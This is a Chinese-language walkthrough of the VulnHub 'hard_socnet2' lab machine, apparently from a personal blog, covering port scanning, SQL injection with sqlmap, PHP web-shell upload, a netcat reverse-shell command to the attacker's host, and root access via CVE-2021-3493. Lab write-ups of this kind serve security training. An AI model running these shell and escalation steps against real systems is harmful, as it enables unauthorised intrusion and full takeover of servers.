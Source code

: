 ```yaml
---
title: 03vulnhub-hard_socnet2
date: 2023-09-17 16:20:35
tags:
- 靶场
categories:
- 靶场
---
```


# 下载地址

 https://download.vulnhub.com/boredhackerblog/hard_socnet2.ova



# 靶机目标

获取靶机root权限



# 详细步骤




## 主机发现

```
arp-scan -l -I eth1
```

![image-20230917163604722](../资源文件/图片/image-20230917163604722.png)

然后扫描端口

```
nmap -sV -p- 192.168.56.109
```

![image-20230917163630729](../资源文件/图片/image-20230917163630729.png)

发现80，8000都是开放的，访问80端口



## web信息收集

![image-20230917163754246](../资源文件/图片/image-20230917163754246.png)

发现有登录和注册功能，尝试弱口令和万能密码，无果，注册一个账号试试看

注册后，成功进入界面，测试功能点，发现主页可以上传文件，搜索框存在sql注入

![image-20230917164139202](../资源文件/图片/image-20230917164139202.png)

![image-20230917164221569](../资源文件/图片/image-20230917164221569.png)

先尝试sql注入，直接用sqlmap跑

发现能跑出所有数据

![image-20230918165631466](../资源文件/图片/image-20230918165631466.png)

发现有管理员的账号和密码，但是登录后无果

随后发现文件上传点

![image-20230918165744131](../资源文件/图片/image-20230918165744131.png)

可以直接上传.php木马

通过蚁剑连接

![image-20230918165833247](../资源文件/图片/image-20230918165833247.png)

查看用户权限，发现是普通用户权限，尝试提权

使用CVE-2021-3493漏洞提权

![image-20230918170304999](../资源文件/图片/image-20230918170304999.png)

把exploit.c传入/var/tmp目录下

在蚁剑的虚拟终端反弹shell进一步提升可操作权限

![image-20230918170833512](../资源文件/图片/image-20230918170833512.png)

目标机

```
nc 192.168.56.103 7777 | /bin/sh | nc 192.168.56.103 8888 
```

kali机

```
nc -lvvp 7777
nc -lvvp 8888
```

进入/var/tmp目录下，编译exploit.c

```
gcc -o exp exploit.c
```

给权限并运行

```
chmod +x exp
./exp
```

![image-20230918172431434](../资源文件/图片/image-20230918172431434.png)

成功取得root权限！
